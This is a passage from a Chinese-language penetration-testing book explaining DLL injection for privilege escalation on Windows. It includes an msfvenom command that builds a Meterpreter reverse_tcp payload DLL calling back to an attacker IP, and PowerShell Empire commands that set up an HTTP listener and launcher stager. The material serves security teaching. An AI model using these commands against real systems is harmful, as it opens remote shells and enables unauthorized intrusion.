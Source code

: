 图 12.7：使用 Psexec 从本地管理员提升到 SYSTEM

## DLL 注入

**DLL**（**动态链接库**）注入是另一种简单的技术，攻击者利用它在另一个进程的地址空间中运行远程代码。该进程必须以超出权限的方式运行，这些权限随后可以用于通过 DLL 文件提升权限。

Metasploit 提供了一个特定的模块，可以用于执行 DLL 注入。攻击者需要做的就是链接现有的 Meterpreter 会话，并指定进程的 `PID` 和 DLL 的路径。我们将探索另一种方式，并利用 Empire 工具中的 PowerShell DLL 注入模块。你可以通过 `msfvenom` 创建一个带有负载的 DLL：

```
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -f dll -o /home/kali/injectmex64.dll 
```

![](img/B17765_12_08.png)

```
sudo powershell-empire server 
sudo powershell-empire client (in a new tab)
uselistener http
set Host <Your IP>
set Port <port number>
execute
usestager multi/launcher
set Listener http
execute 
```

这应该为我们提供可以在目标上执行的 PowerShell 负载。在本例中，我们将以 Windows 10 为例，直接从 Meterpreter shell 运行 PowerShell 脚本，如 *图 12.8* 所示：

![](img/B17765_12_05.png)
